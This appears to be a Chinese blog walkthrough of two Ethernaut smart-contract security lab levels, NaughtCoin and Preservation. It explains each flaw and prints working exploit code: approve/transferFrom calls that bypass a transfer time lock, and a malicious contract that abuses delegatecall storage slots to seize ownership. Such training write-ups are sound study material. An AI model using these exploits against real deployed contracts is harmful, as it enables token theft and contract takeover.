 ```yaml
---

title: 'ethernaut.openzeppelin合约安全闯关-12'
date: 2022-12-13 14:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'
---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第十五 / 十六关NaughtCoin / Preservation思路与POC

##### 先看第一个合约代码

##### 目标: bypass转账判断

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import 'openzeppelin-contracts-08/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = block.timestamp + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player) 
  ERC20('NaughtCoin', '0x0') {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  //限制 必须是初始代币拥有者 并且在区块时间过去10年后
  modifier lockTokens() {
    if (msg.sender == player) {
      require(block.timestamp > timeLock);
      _;
    } else {
     _;
    }
  } 
} 
```

##### poc思路:point_right:：这个确实很简单,因为此合约只重写了transfer函数并且限制只存在于transfer函数中,仔细看ERC20标准就知道有transfer函数用于**普通转账**,还有transferFrom用于**授权转账**. 所以其实只需要我们自己授权自己发送代币然后使用transferFrom函数即可.

```solidity
 //ERC20标准 transferFrom标准实现
 function transferFrom(
        address from,
        address to,
        uint256 amount
    ) public virtual override returns (bool) {
        //sender为被授权者
        address spender = _msgSender();
        //校验代币所有者是否有批准 被授权者使用amount数量的代币,有就开始转账
        _spendAllowance(from, spender, amount);
        _transfer(from, to, amount);
        return true;
    }

```

##### poc脚本:

```js
await contract.approve(player,toWei('1000000'))
await contract.transferFrom(player,'0xe58812571718B4aBb70afe96A02A366e009D171e',toWei('1000000'))
```

##### 只是需要注意一点,转移如此多的ERC20代币是非常消耗gas的:black_nib:如果gas上限不够大概会收到这样的错误:

```bash
Error in RPC response:,err: max fee per gas less than block base fee: address 0x0e21d35681E679C33dD49731935FB81F1aee8C05, maxFeePerGas: 28609540 baseFee: 302717279 (supplied gas 15000000)
```



#### 看第二个合约代码:  

##### 目标: 修改owner变量的值

##### 看起来没有任何问题 没有任何修改owner变量的逻辑,但是别忘了 Preservation 这是个代理合约(它使用了delegateCall) :black_flag:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

//代理合约
contract Preservation {
  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // 设定函数签名
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 

  function setFirstTime(uint _timeStamp) public {
  //代理调用timeZone1Library合约的setTime方法
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// 逻辑合约
contract LibraryContract {
  /*
  其实问题出在了这里,实际的逻辑执行合约是不存储任何数据的(数据的更改发生在代理合约上),
 !!! 这代表着逻辑合约上的变量所占slot实际是与代理合约对应的
  因此逻辑合约的变量设置必须与代理合约一样.
 !!! 所以这里更改的storedTime变量的数据占slot0位置,这代表着实际更改的数据是Preservation合约slot0上的数据
  */
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

##### poc思路:point_right:：能够更改Preservation合约slot 0的数据这意味着什么呢,意味着你可以更改timeZone1Library库的地址为恶意合约的地址,意味着可以使setFirstTime函数实际调用的是恶意合约上的方法。

```js
//设置恶意合约地址到slot0
await contract.setFirstTime('0x95a3b18c0590672CA4C2be9d3548de87486ba170')
//此时调用setFirstTime方法实际是调用恶意合约的setTime方法
await contract.setFirstTime('0x0e21d35681E679C33dD49731935FB81F1aee8C05')
//成功修改
await contract.owner()
'0x0e21d35681E679C33dD49731935FB81F1aee8C05'
```

##### 恶意合约代码:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract PreservationBypass { 
//变量的数量类型所占slot 必须与Preservation合约保持一致
 address public t1;
 address public t2;
 address public owner;
 uint storedTime;
 //函数签名是不变的所以其实只要方法名为setTime()即可
    function setTime(uint256 _owner) public{
         owner =  address(uint160(_owner));         
    }
}
```

